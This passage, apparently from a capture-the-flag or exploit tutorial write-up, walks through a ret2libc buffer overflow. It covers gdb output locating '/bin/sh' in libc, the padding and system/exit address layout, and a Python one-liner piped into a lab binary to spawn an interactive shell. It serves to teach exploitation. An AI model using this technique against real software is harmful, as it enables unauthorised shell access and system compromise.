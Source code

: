 ```sh
        0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
        0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
        0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
        0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
        0xbffdf000 0xc0000000    0x21000        0x0 [stack]
(gdb) find 0xb7e2c000, 0xb7fd2000, "/bin/sh" # find string "/bin/sh" from start of libc [0xB7E2C000] to end of libc [0xB7FD2000]
0xb7f8cc58
1 pattern found.
(gdb)
```

So we need to put some paddings ('a' * 64) inside the buffer first until we saved ebp,
then we also need some paddings ('b' * 4) to skip the saved ebp

At this point we reached the return address so we need to put the address of system in little-endian format 
(0xb7e6b060 -> \x60\xb0\xe6\xb7)

Now we need to give a return address for system which will be the address of exit in little-endian format
(0xb7e5ebe0 -> \xe0\xeb\xe5\xb7)

And then the argument for system which is the address of "/bin/sh" in little-endian format once again
(0xb7f8cc58 -> \x58\xcc\xf8\xb7)

This would look like this:
```sh
[ aaaaaaaaaaaaa..... ] # padding to reach saved ebp
[ bbbb ] # padding to reach return address
[ \x60\xb0\xe6\xb7 ] # set return address to system()
[ \xe0\xeb\xe5\xb7 ] # set ebp + 4 = return address of system() = exit()
[ \x58\xcc\xf8\xb7 ] # set ebp + 8 = "/bin/sh" = First argument = system("/bin/sh")
```

We can do it all in one line using python, notice the usage of cat
It will allow stdin to stay to open in order for us to interact with the shell

```sh
(python -c "print('a' * 64 + 'b' * 4 + '\x60\xb0\xe6\xb7' + '\xe0\xeb\xe5\xb7' + '\x58\xcc\xf8\xb7')"; cat) | ./a.out
```

## Solution

Finally after a lot of explanations we reached the solution.

We just have one more issue.

Remember the diagram showing the program execution, there is a check on the return address that verifies if it lies below 0xb0000000,
and that is the case for the address of system which is located at 0xb7e6b060

So we need to bypass this, to avoid exiting the program before reach the ret instruction.
